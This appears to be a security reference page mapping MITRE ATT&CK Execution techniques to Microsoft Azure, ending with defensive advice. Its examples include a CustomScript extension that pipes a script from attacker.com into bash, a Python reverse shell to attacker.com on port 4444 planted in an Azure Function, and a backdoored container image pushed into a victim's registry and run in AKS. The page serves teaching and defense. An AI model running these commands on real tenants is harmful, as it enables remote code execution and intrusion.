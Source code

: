 # Execution TA0002

## **Execution Techniques in Azure Environments**

In Microsoft Azure, adversaries use Execution techniques to run code and control resources post-initial access. Execution may happen by abusing legitimate Azure APIs, uploading and triggering malicious images or workloads, or executing code through serverless platforms like Azure Functions or Logic Apps.

Execution in Azure often blends native cloud administration and code execution paths, making detection tricky if defenses aren't tuned.

***

#### 🧑‍💻 Cloud Administration Command → **T1651**

**Description**:\
Use Azure-native management interfaces (CLI, Portal, REST API, PowerShell) to run administrative operations that lead to code execution or resource manipulation.

**Azure Example**:\
An attacker with valid credentials uses the Azure CLI to deploy a malicious Virtual Machine:

```bash
bashCopyEditaz vm create --resource-group victim-rg --name malicious-vm --image UbuntuLTS --admin-username hacker --generate-ssh-keys
```

Or run arbitrary script extensions on an existing VM:

```bash
bashCopyEditaz vm extension set --publisher Microsoft.Azure.Extensions --name CustomScript --vm-name target-vm --resource-group target-rg --settings '{"commandToExecute":"curl http://attacker.com/payload.sh | bash"}'
```

✅ **Result**: Code execution on Azure VMs without needing local exploit — pure abuse of cloud admin capabilities.

***

#### 🖥️ Command and Scripting Interpreter → **Cloud API**

**Description**:\
Execute code by directly interacting with Azure Resource Manager (ARM) APIs or service-specific APIs (e.g., Azure Kubernetes Service, Azure Functions) to create and run workloads.

**Azure Example**:\
An attacker uses raw REST API calls to deploy a container:

```bash
bashCopyEditcurl -X PUT https://management.azure.com/subscriptions/<sub-id>/resourceGroups/<rg>/providers/Microsoft.ContainerInstance/containerGroups/malicious-container?api-version=2021-03-01 \
  -H "Authorization: Bearer <token>" \
  -d @malicious-container-payload.json
```

✅ **Result**: Programmatic creation of attack infrastructure without detection if API telemetry isn’t watched.

***

#### 🛠️ Serverless Execution

**Description**:\
Deploy and trigger malicious Azure Functions, Logic Apps, or Event Grid handlers to run attacker-controlled code without needing to maintain infrastructure.

**Azure Example**:\
An attacker uploads a malicious Azure Function using stolen credentials:

```bash
bashCopyEditfunc azure functionapp publish victim-function-app --python
```

Or directly edits an HTTP-triggered Azure Function to insert reverse shell code:

```python
pythonCopyEditimport socket, subprocess, os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("attacker.com",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/sh","-i"])
```

✅ **Result**: Fully serverless, covert C2 channel established in Azure.

***

#### 👥 User Execution → **Malicious Image**

**Description**:\
Upload or deploy a backdoored container image to Azure Container Registry (ACR), Azure Kubernetes Service (AKS), or Azure Container Instances (ACI), tricking users or workloads into executing it.

**Azure Example**:\
An attacker pushes a malicious container image into ACR:

```bash
bashCopyEditaz acr login --name victimacr
docker tag backdoor:latest victimacr.azurecr.io/backdoor:latest
docker push victimacr.azurecr.io/backdoor:latest
```

Then deploys it to AKS:

```bash
bashCopyEditkubectl run pwned-pod --image=victimacr.azurecr.io/backdoor:latest
```

✅ **Result**: The malicious container runs inside AKS, ACI, or other containerized workloads.

***

## 📊 Summary of **Execution Techniques in Azure**&#x20;

| Technique/Subtechnique                        | MITRE ID      | Azure Example                                                                                                |
| --------------------------------------------- | ------------- | ------------------------------------------------------------------------------------------------------------ |
| Cloud Administration Command                  | **T1651**     | Use Azure CLI, PowerShell, or REST API to run admin commands (e.g., deploy VMs, run CustomScript extensions) |
| Command and Scripting Interpreter → Cloud API | **T1059.009** | Execute code via direct REST API calls (e.g., ARM API to deploy containers)                                  |
| Serverless Execution                          | **T1648**     | Deploy malicious Azure Functions, Logic Apps, Event Grid handlers to trigger code automatically              |
| User Execution → Malicious Image              | **T1204.003** | Push and deploy backdoored container images into ACR, AKS, or ACI                                            |

## 🎯 Final Summary

Defending against Execution in Azure focuses on:

* **Monitoring cloud administrative actions closely** (API calls, deployments)
* **Hardening workloads** (image signing, runtime controls, serverless code reviews)
* **Restricting who can deploy or modify code** (strict role assignments)
* **Detecting anomalous deployment and execution behavior** (Defender for Cloud, Sentinel rules)
